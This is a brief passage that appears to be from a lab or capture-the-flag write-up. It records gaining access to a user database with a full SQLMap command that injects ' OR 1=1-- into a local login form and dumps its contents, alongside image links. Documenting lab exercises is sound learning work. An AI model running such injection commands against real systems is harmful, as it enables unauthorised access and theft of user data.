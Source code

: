 ![alt text](images/image-7.png)

- Gained access to the user database using SQLMap with the following command:

```command
sqlmap -u "http://0.0.0.0:7777/login.html" --data="username=' OR 1=1--&password=zzz&Login=Login" --method=POST --dump
```

![alt text](images/image-8.png)
